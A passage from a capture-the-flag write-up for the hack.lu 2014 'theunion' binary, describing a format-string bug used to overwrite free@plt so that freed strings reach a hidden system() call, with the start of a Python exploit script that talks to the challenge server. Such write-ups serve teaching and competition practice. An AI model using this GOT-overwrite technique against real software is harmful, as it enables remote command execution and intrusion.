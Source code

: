 We poked around the binary a bit more and Swappage identified the secret trapdoor function at `0x8049208`. It turns out that we could reach this function also when `99` is entered on the menu:

```bash
99
Ufff! You found our trapdoor.
Ok here you go. Everything in here is not what it seems to be.
If you do not understand this, you are not quite there yet.
```

I wrote a small python script that exploits the string format bug so that it writes the address `0x8049208` to `free@plt`. Next, the script invokes `Delete mine` so that `free()` is called, but this actually points to the trapdoor function. When executing this script locally, I noticed that `/bin/sh` threw an error message, indicating that `system()` is called somehow. But upon examination of the binary, I could not find *any* calls to `system()`, `execve` or even `int 0x80`! What was going on here? `hopper` shed some light on this function:

![](/images/2014/hack.lu/theunion/02.png)

There is a piece of code that is never actually executed when this trapdoor function is called from the menu, the `printf`. Oddly, the rest of the binary uses `putf`. I ran `gdb` and examined the pointer that is used and compare it to `printf`... It wasn't the same! On a hunch, I compared it to `system()`, which did match! So indeed, not everything is what it seems. With this in mind, we can modify the string format exploit. It should write the address of `printf@plt` to `free@plt`, so when a string is freed, `system()` is called with that string as argument. Command execution, here we come!

```python
#!/usr/bin/python

from socket import *
import time

# connect to remote server
s=socket(AF_INET, SOCK_STREAM)
s.connect(('wildwildweb.fluxfingers.net', 1423))

# receive & print banner
time.sleep(1)
print s.recv(1024)
time.sleep(1)

# send passphrase
s.send('gold>silverb\n')
time.sleep(0.05)
print s.recv(512)

# delete all mines, makes it easier later
s.send('3\n')
s.send('y\n')
time.sleep(0.05)
print s.recv(512)
s.send('3\n')
s.send('y\n')
time.sleep(0.05)
print s.recv(512)
s.send('3\n')
s.send('y\n')
time.sleep(0.05)
print s.recv(512)

# add mine, supply a string format argument which
# overwrites the first two bytes of free@plt pointer
time.sleep(0.05)
s.send('1\n')
time.sleep(0.05)
print s.recv(512)
```